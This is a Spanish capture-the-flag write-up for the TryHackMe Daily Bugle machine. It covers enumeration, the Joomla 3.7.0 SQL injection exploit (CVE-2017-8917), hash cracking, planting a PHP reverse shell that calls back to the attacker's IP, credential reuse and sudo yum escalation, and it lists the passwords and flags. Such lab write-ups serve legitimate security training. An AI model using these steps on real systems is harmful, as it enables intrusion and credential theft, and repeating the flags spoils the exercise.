****

# CTF Write-Up Daily Bugle (TryHackMe)


**Realizado por: Raúl Cabrera Garcia** 

***Descripción: Se trata de la guía-paso, para poder resolver está máquina CTF***


***Instrucciones:*** 

- Principalmente nos invitan a que accedamos a la web, y respondamos ¿Quién robo el banco?. Pero sigamos un poco de metodología primero.
- 1 - Realizamos un escaneo con NMAP de los puertos disponibles:

```
nmap -A -p- -Pn IP_MAQUINA
```

- 2 - Vemos que tenemos 2 puertos el 22 (SSH) y el 80 (HTTP o Web). En este caso lo primero sería dirigirnos a la web.

- 3 - Si vemos, a primera vista, encontramos la primera respuesta a la pregunta de la máquina. Es una noticia del "Daily Bugle". Contándonos que quien robó el banco fue "Spider-Man". Por lo que la respuesta es "spiderman".


- 4 - Lo primero que podemos mirar es el "robots.txt", para ver si se puede acceder algún directorio. Que no indexa el buscador. Paralelamente, podemos ir realizando un "gobuster", contra la web. Para así, poder listar posibles directorios, y si se descubriera algunos mas, que no estuviera en el "robots.txt".
```
gobuster dir -u http://IP_MAQUINA -w /usr/share/dirb/wordlists/common.txt
```
- 5 - Si miramos el "http://IP_MAQUINA/robots.txt", vemos lo primero un texto, donde ya nos dicen el tipo de "CMS", que estamos tratando. Es un Joomla, nos interesará mas adelante. Y una larga lista de directorios, que están "disallow". Y, vemos uno interesante. Es "/administrator/"



- 6 Vemos que lo que nos muestra es un panel de administración de un "joomla".



- 7 Si probamos credenciales por defecto, nos dirá que "tarari, pero es bueno probarlo ;)".

- 8 - Al terminar gobuster. Veremos que nos encontró varios directorios e incluso ficheros. Si probais el "/tmp o fichero .htpasswd, .htaccess", estará vacío o directamente no podremos acceder a verlos. También tenemos el "/administrator/", que vimos antes en el "robots.txt". Que es el que contiene el panel de administración del Joomla.


- 9 - Ahora, siguiendo las preguntas que nos hacen del CTF, debemos averiguar la versión del Joomla. Como ya sabemos que lo es. Utilizamos la herramienta "Joomscan", que nos permite analizar el CMS, y obtener información variada. En parte, muy en la línea de la otra herramienta "gobuster". Pero nos muestra también la versión. Tratándose de:
```
joomscan -u http://IP_MAQUINA
```



- 10 - Ya sabemos la versión del joomla. Un Joomla versión "3.7.0", siendo está la respuesta a la pregunta. Y como se ve, nos indica más cosas, cual es la página de administración y los distintos directorios que podrían ser interesante. De aquí, ya no nos interesa nada mas.

- 11 - Ahora que tenemos un panel de administración debemos intentar hacer un "bypass" al login. Para ello usaremos un script de python llamado "joomblah". Un exploit para Joomla 3.7.0, que se aprovecha de una vulnerabilidad con CVE-2017-8917. Haciendo uso de "SQLinjection". Podemos descargarlo de "GitHub". Y le damos permiso de ejeccución.
```
chmod +x joomblah.py
usage: python2 joomblah.py http://IP_MAQUINA:puerto
```


- 12 - Una vez lo hemos ejecutado, nos aparece que encontró un usuario llamado "jonah" y lo que nos parece una clave cifrada. Aparte del nombre de la tabla, "fbnj5_users".
```
usuario: jonah
clave: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

- 13 - Lo siguiente que tendremos que hacer es descifrarla, para ello. Usaremos la herramienta "John The Ripper". Creamos un fichero "clave.txt", dentro escribimos la línea que encontramos antes. Y se la pasamos a John, junto al diccionario "rockyou", que trae Kali Linux. Intentará identificar el tipo de hash y probará con el diccionario a "crackear la clave".
```
john --wordlist=/usr/share/wordlists/rockyou.txt clave.txt
```


- 14 - Obtenemos la clave, y ya podemos responder a la siguiente pregunta, del CTF. Donde nos pedían. ¿Qué cual era la clave crackeada de Jonah?. La respuesta es "spiderman123".
```
usuario: jonah
clave: spiderman123
```
- 15 - Ahora tenemos un usuario y una clave, podremos entrar al panel de administracíon de joomla. Este usuario como se ve, es "Super User". Por lo que tendremos acceso ampliado dentro del CMS.



- 16 - Ahora la finalidad y lo que nos interesa, es encontrar alguna forma de poder tener acceso al sistema. Por lo que debemos de obtener una "shell reversa", y al estar tratando con un CMS. Buscaremos el código para ejecutar una "reverse shell de código PHP". Nos vamos a:
```
Extensiones --> Templates --> Nos aparece, que de estilo se está usando "protostar" --> Templates --> Protostar Details and Files
```



- 17 - Ahora nos aparace un arbol de directorios. Elegimos el archivo "index.php"



- 18 - Previamente hemos copiado el código de una "shell reversa", hecha con código PHP. Y modificado en su código, con la dirección IP de nuestra máquina Kali y el puerto que queremos estar "escuchando", para que cuando se cargue está página. Obtengamos una shell en nuestra Kali. Ya que tendremos "netcat" a la escucha.
```
Podemos obtener la "shell reversa", de la web "pentestmonkey".
$ip = 'IP_MAQUINA_KALI'
$port = 1234
```


- 19 - Ponemos a la espera nuestra Kali Linux. Con "netcat":
```
nc -vnlp 1234
```



- 20 - Volvemos a la web. Guardamos la página y cerramos. Y ahora, debemos visitar la página "index.php", para que se ejecute el código PHP. Que hemos puesto. Y volvemos a la terminal. Y vemos que obtenemos una "shell", y si ejecutamos el comando "id". Ahora mismo somos el usuario "apache".



- 21 - Lo siguiente, que debemos de probar primero. Es ver directorios en los que podramos acceder y buscar algo que parezca importante. Si intentais mirar en "/home", encontramos otro usuario "jjameson". Tenemos acceso también al "/etc/passwd". Si hacemos un "sudo -l". Para ver si podemos ejecutar como administrador algún comando. Vemos que no es el caso está vez.



- 22 - Debemos seguir, ya que somos un usuario "apache" y la máquina tiene un CMS. Debemos ir a mirar dentro de los directorios que parten de "/var/www/html". Del servicio web. Veremos varios archivos, que pueden ser interesantes.



- 23 - El que nos interesa principalmente, es el fichero de configuración de "PHP". En el, encontramos entre las líneas, en las variables de conexión a la base de datos, 2 variables que pueden parecer interesante "$password" y "$secret".
```
$password = nv5uz9r3ZEDzVjNu
$secret = nv5uz9r3ZEDzVjNu
```



- 24 - Probaremos, y la "$password" es la que nos valdrá, para el usuario "jjameson". No es necesario probar a crackearla, ya que valdrán tal cual vienen. Lo único que debemos de hacer es cambiar de usuario.

- Ejecutamos lo siguiente:



- Y nos vamos a "/home/jjameson/user.txt". Leemos el fichero y podremos responder a la penúltima pregunta del CTF. Que nos piden la flag del usuario:



- Y ahora, ya que la otra clave, "$secret", no nos sirve para escalar a usuario "root", nos quedamos como "jjameson". Volvemos a consultar si podemos ejecutar algún comando como administrador. Vemos que está vez si. Es el comando "yum".



- Ejecutamos el comando "yum", como administrador. Utilizando con el comando, alguna técnica de "abusing sudo". Por lo que debemos de ejecutar lo siguiente:



- 25 - Finalmente, somos usuario "root", nos dirigimos a "/root/root.txt". Y ya respondemos a la última pregunta del CTF. Que es la flag del "root". Enhorabuena, has completado el CTF!!. Máldito JJJ!



***Flags:***

- Primera Flag: spiderman
- Segunda Flag: 3.7.0
- Tercera Flag: spiderman123
- Cuarta flag: 27a260fe3cba712cfdedb1c86d80442e
- Quinta flag: eec3d53292b1821868266858d7fa6f79
